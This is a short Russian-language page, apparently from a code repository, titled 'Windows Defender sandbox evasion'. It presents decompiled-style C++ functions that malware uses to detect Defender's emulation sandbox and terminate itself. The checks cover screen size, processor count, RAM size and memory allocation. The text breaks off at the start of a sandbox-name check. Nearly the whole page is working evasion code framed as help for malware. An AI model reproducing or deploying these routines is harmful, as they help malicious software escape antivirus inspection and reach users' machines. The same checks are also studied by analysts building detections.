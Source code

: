 # Windows Defender sandbox evasion

У Windows Defender есть своя виртуальная машина, на которой он запускает файлы скачанные из интернета, или распакованные из архивов. Дальнейший набор функций помогает обнаружить, что малварь выполняется не на реальном пк и завершить выполнение. 

```cpp
int mlw_anti_windows_sandbox_by_screen_size()
{
  int result; // eax
  HDC hdc; // [esp+0h] [ebp-Ch]
  int DeviceCaps; // [esp+4h] [ebp-8h]

  hdc = CreateDCA(DISPLAY, 0, 0, 0);
  DeviceCaps = GetDeviceCaps(hdc, 10);
  result = ReleaseDC(0, hdc);
  if ( DeviceCaps < 666 )
    ExitProcess(0);
  return result;
}
void mlw_anti_windows_sandbox_by_processors_count()
{
  struct _SYSTEM_INFO SystemInfo; // [esp+4h] [ebp-24h] BYREF

  GetSystemInfo(&SystemInfo);
  if ( SystemInfo.dwNumberOfProcessors < 2 )
    ExitProcess(0);
}
BOOL mlw_try_private_mem_region()
{
  HANDLE CurrentProcess; // eax

  CurrentProcess = GetCurrentProcess();
  if ( !VirtualAllocExNuma(CurrentProcess, 0, 0x7D0u, 0x3000u, 0x40u, 0) )
    ExitProcess(0);
  return alloc_mem_and_free();
}
int mlw_anti_windows_sandbox_by_RAM_size()
{
  __int64 v0; // rax
  __int64 v1; // rax
  struct _MEMORYSTATUSEX Buffer; // [esp+0h] [ebp-48h] BYREF
  unsigned __int64 v4; // [esp+40h] [ebp-8h]

  sub_411400(&Buffer, 0, 64);
  Buffer.dwLength = 64;
  LODWORD(v0) = GlobalMemoryStatusEx(&Buffer);
  if ( (_DWORD)v0 == 1 )
  {
    v1 = sub_4133A0(Buffer.ullTotalPhys, HIDWORD(Buffer.ullTotalPhys), 1024, 0);
    v0 = sub_4133A0(v1, HIDWORD(v1), 1024, 0);
    v4 = v0;
  }
  else
  {
    v4 = 0i64;
  }
  if ( v4 < 0x457 )
    ExitProcess(0);
  return v0;
}
int mlw_check_windows_sandbox_name()
{
```